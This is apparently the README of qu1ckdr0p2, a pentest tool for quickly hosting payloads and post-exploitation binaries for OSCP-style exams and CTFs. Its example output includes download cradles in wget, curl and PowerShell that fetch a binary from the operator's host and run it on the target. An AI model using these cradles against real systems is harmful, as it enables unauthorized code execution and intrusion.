

<h1 align="center">
    </img>


[](https://opensource.org/licenses/MIT)


</h1>

## About
Rapidly host payloads and post-exploitation bins over HTTP or HTTPS. 

Designed to be used on exams like OSCP / PNPT or CTFs HTB / etc.

Pull requests and issues welcome. As are any contributions.

Qu1ckdr0p2 comes with an alias and search feature. The tools are located in the <a href ="https://github.com/byinarie/qu1ckdr0p2-tools">qu1ckdr0p2-tools</a> repository. By default it will generate a self-signed certificate to use when using the `--https` option, priority is also given to the `tun0` interface when the webserver is running, otherwise it will use `eth0`.

The <a href="https://github.com/byinarie/qu1ckdr0p2-tools/blob/main/config/common.ini">common.ini</a> defines the mapped aliases used within the `--search and -u` options.

When the webserver is running there are several download cradles printed to the screen to copy and paste.
## NOTE
When you go to copy and paste a download cradle, depending on your terminal emulator of choice you may have to QUICKLY triple or double click the download cradle to highlight it for a copy. This will be fixed in a later version.

## Install
#### Using pip is the only supported way of installing
#### Cloning this repository to install will probably break something
```zsh
pip3 install qu1ckdr0p2

echo "alias serv='~/.local/bin/serv'" >> ~/.zshrc
source ~/.zshrc

or

echo "alias serv='~/.local/bin/serv'" >> ~/.bashrc
source ~/.bashrc

serv init --update

```

## Usage
### Serv a single file located in your current working directory
```zsh
$ serv serve -f implant.bin --https 443
```
```zsh
$ serv serve -f file.example --http 8080
```

## Update and help
```zsh
$ serv --help            
Usage: serv [OPTIONS] COMMAND [ARGS]...

  Welcome to qu1ckdr0p2 entry point.

Options:
  --debug  Enable debug mode.
  --help   Show this message and exit.

Commands:
  init   Perform updates.
  serve  Serve files.
```
```zsh
$ serv serve --help
Usage: serv serve [OPTIONS]

  Serve files.

Options:
  -l, --list         List aliases
  -s, --search TEXT  Search query for aliases
  -u, --use INTEGER  Use an alias by a dynamic number
  -f, --file FILE    Serve a file
  --http INTEGER     Use HTTP with a custom port
  --https INTEGER    Use HTTPS with a custom port
  -h, --help         Show this message and exit.
```
```zsh
$ serv init --help       
Usage: serv init [OPTIONS]

  Perform updates.

Options:
  --update            Check and download missing tools.
  --update-self       Update the tool using pip.
  --update-self-test  Used for dev testing, installs unstable build.
  --help              Show this message and exit.
```

```zsh
$ serv init --update
```
```zsh
$ serv init --update-self
```
### Serv a file from a mapped alias
The mapped alias numbers for the `-u` option are dynamic so you don't have to remember specific numbers or ever type out a tool name.
```zsh
$ serv serve --search ligolo               

[→] Path: ~/.qu1ckdr0p2/windows/agent.exe
[→] Alias: ligolo_agent_win
[→] Use: 1

[→] Path: ~/.qu1ckdr0p2/windows/proxy.exe
[→] Alias: ligolo_proxy_win
[→] Use: 2

[→] Path: ~/.qu1ckdr0p2/linux/agent
[→] Alias: ligolo_agent_linux
[→] Use: 3

[→] Path: ~/.qu1ckdr0p2/linux/proxy
[→] Alias: ligolo_proxy_linux
[→] Use: 4
(...)
```
```zsh
$ serv serve --search ligolo -u 3 --http 80

[→] Serving: ../../.qu1ckdr0p2/linux/agent
[→] Protocol: http
[→] IP address: 192.168.1.5
[→] Port: 80
[→] Interface: eth0
[→] CTRL+C to quit

[→] URL: http://192.168.1.5:80/agent

[↓] csharp:
$webclient = New-Object System.Net.WebClient; $webclient.DownloadFile('http://192.168.1.5:80/agent', 'c:\windows\temp\agent'); Start-Process 'c:\windows\temp\agent'

[↓] wget:
wget http://192.168.1.5:80/agent -O /tmp/agent && chmod +x /tmp/agent && /tmp/agent

[↓] curl:
curl http://192.168.1.5:80/agent -o /tmp/agent && chmod +x /tmp/agent && /tmp/agent

[↓] powershell:
Invoke-WebRequest -Uri http://192.168.1.5:80/agent -OutFile c:\windows\temp\agent; Start-Process c:\windows\temp\agent

⠧ Web server running

```


## License

MIT

---

